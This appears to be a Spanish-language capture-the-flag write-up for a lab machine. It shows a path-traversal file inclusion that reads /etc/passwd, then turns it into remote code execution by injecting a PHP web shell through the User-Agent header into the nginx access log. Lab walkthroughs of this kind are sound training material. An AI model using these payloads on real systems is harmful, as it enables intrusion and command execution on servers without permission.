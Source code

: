 ### LFI
Probamos un LFI de la siguiente forma y obtenemos el contenido del `/etc/passwd`.

```bash
http://thetruthoftalos.hmv/index.php?filename=....//....//....//....//....//etc/passwd
curl -s -X GET http://thetruthoftalos.hmv/index.php\?filename\=....//....//....//....//....//etc/passwd
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:54:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
talos:x:1000:1000:Talos,,,:/home/talos:/bin/bash
_rpc:x:102:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/usr/sbin/nologin
byron:x:1001:1001::/home/byron:/bin/sh
hermanubis:x:1002:1002::/home/hermanubis:/bin/sh
melville:x:1003:1003::/home/melville:/bin/bash

```
### LFI TO RCE
Como nginx estaba corriendo en la web probaremos un Log Poisoned.
```bash
curl -s -X GET http://thetruthoftalos.hmv/index.php?filename=....//....//....//....//....//var/log/nginx/access.log
"GET / HTTP/1.1" 200 3437 "-" "HomeNet/1.0"
192.168.101.10 - - [25/Dec/2023:16:42:16 +0000] "GET /index.php?filename=....//....//....//....//....//var/log/nginx/access.log HTTP/1.1" 200 871 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

```
Al poder ver los logs podemos realizar el [envenenamiento de logs](https://lathack.com/vulnerabilidad-log-poisoning/).
```bash
curl -s -X GET http://thetruthoftalos.hmv/index.php\?filename\=....//....//....//....//....//var/log/nginx/access.log -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
"GET / HTTP/1.1" 200 3437 "-" "HomeNet/1.0"
192.168.101.10 - - [25/Dec/2023:16:42:16 +0000] "GET /index.php?filename=....//....//....//....//....//var/log/nginx/access.log HTTP/1.1" 200 871 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
192.168.101.10 - - [25/Dec/2023:16:42:34 +0000] "GET /index.php?filename=....//....//....//....//....//var/log/nginx/access.log HTTP/1.1" 200 2335 "-" "curl/8.3.0"
```
Con el parametro cmd por GET que inyectamos en el User-Agent tenemos RCE.
